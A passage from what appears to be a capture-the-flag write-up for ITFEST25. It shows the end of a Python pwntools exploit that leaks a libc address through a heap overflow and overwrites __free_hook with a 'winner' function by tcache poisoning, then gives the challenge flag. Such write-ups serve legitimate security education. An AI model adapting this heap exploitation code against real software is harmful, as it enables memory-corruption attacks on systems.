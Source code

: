 ```python
        edit(0, b"A"*0x20) # Heap overflow touch chunk 1
        show(0) # Leak with chunk 0
        io.recv(0x20)
        libc_leak = u64(io.recvline().strip().ljust(8, b"\x00"))
        libc.address = libc_leak - 0x1ecbe0
    log.info("Libc base address: %#x", libc_leak)
    log.info("Libc base address: %#x", libc.address)

    with log.progress("Tcache poisoning to __free_hook and overwrite to winner function"), context.silent:
        edit(0, b"A"*0x18 + p64(0x430)) # Fix chunk 1 to valid header size

        alloc(1, 0x18)  # chunk 1
        free(2)
        free(1) # victim chunk
        edit(0, b"A"*0x20 + p64(libc.symbols['__free_hook'])) # Heap overflow to chunk 1
        alloc(2, 0x18)  # chunk 2
        alloc(1, 0x18)  # chunk 1
        edit(1, p64(elf.sym["winner"])) # Overwrite __free_hook with winner function
        free(2) # Trigger the winner function
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`ITFEST25{soalnya_dibikin_dadakan_karena_ada_probset_yang_buat_soal_tapi_gaada_solvernya_muehehehe___ZafiN}`
    
# Pwn - My First Ever...

## Introduction 
